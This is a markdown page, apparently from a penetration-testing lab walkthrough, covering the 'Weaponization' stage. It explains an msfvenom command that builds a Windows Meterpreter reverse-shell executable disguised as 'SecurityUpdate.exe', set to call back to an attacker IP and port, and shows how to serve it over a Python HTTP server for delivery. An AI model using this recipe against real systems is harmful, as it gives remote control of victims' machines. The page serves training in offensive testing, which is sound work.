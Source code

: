# Weaponization

### Objective: Create a malicious payload and delivery mechanism.

### Action:

1. Use MSFVenom (a tool for creating payloads) to generate a malicious executable that can execute a Meterpreter shell (a Metasploit payload for remote control). 

![image](https://github.com/user-attachments/assets/fc6acd6d-1b8f-4dc9-8d76-ab57a5fc4574)

### Here's a breakdown in simple terms:

  - `msfvenom` – A tool used to generate payloads (malicious code) for penetration testing.
  - `-p windows/meterpreter/reverse_tcp` – This specifies the payload type:
    - `windows/meterpreter/reverse_tcp` is a payload that creates a "reverse shell," meaning the target machine (victim) will connect back to the attacker's computer.
  - `LHOST=10.19.19.134` – The attacker's IP address where the victim's machine will connect.
  - `LPORT=4444` – The port on which the attacker's computer is listening for incoming connections.
  - `-f exe` – Specifies the output format of the payload (in this case, a Windows executable `.exe` file).
  - `-o SecurityUpdate.exe` – Saves the malicious executable file as `SecurityUpdate.exe`.

### The Output:

The tool automatically selects Windows as the target platform.
It picks **x86 (32-bit architecture)** since no specific architecture was mentioned.
No encoding (obfuscation) is applied, so the payload is "raw."
The payload itself is **354 bytes** in size, but the final executable is **73,802 bytes**.
The malicious file is saved as `SecurityUpdate.exe`.

### What This Means:
  
If someone runs `SecurityUpdate.exe` on a Windows machine, it will create a connection from the victim's computer back to the attacker's system (`10.19.19.134:4444`). This allows the attacker to control the machine remotely using Meterpreter, a powerful post-exploitation tool in Metasploit.


### The command `file SecurityUpdate.exe` is used to check what type of file `SecurityUpdate.exe` is. The output provides details about the file:

1. `PE32 executable` – This means it is a Portable Executable (PE) file, which is a common format for Windows programs.
2. `(GUI)` – The program is designed to run with a Graphical User Interface (GUI) rather than in the command line (CLI).
3. `Intel 80386` – This indicates the file is built for 32-bit (x86) architecture.
4. `for MS Windows` – The file is meant to run on Microsoft Windows.
5. `4 sections` – The executable has four sections inside it (such as code, data, resources, etc.), which is typical for compiled Windows programs.

### What This Means:

This confirms that `SecurityUpdate.exe` is a **Windows executable file** (32-bit) with a GUI, likely generated by `msfvenom` in the previous step. If run on a Windows machine, it will execute the embedded payload.

2. Host the payload in a Python HTTP server on port `8000`.

![image](https://github.com/user-attachments/assets/1c66b5c9-4f4c-4285-8f5a-d86b5a14c244)

### The command `python3 -m http.server 8000` starts a simple web server using Python. Here’s what it does in simple terms:

1. `python3` – Runs Python version 3.
2. `-m http.server` – Uses Python’s built-in web server module to start a temporary HTTP server.
3. `8000` – Specifies that the server should run on port 8000 (you can change this to any available port).

### The Output:

  - `"Serving HTTP on 0.0.0.0 port 8000"` – The server is now running and listening on all network interfaces (0.0.0.0 means it’s accessible from any computer on the network).
  - `"http://0.0.0.0:8000/"` – You (or others on the network) can access it by typing http://your-ip:8000/ in a web browser.

### What This Means:

  - If you run this command in a folder, Python will share all the files in that folder over HTTP.
  - You can download files from this machine by visiting `http://your-ip:8000/` in a browser or using `wget` or `curl`.
  - Useful for quick file sharing or setting up a local web server for testing.

